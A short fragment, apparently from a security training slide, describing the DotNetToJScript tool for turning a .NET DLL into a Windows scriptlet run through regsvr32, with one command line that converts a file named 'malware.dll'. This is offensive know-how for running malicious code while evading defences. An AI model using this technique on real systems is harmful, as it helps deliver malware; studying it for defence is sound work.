

# DotNetToJScript
Creating a Windows Scripting Object (SCT) for execution by regsrv32.exe

DotNetToJScript.exe -u -l vbscript malware.dll > out.sct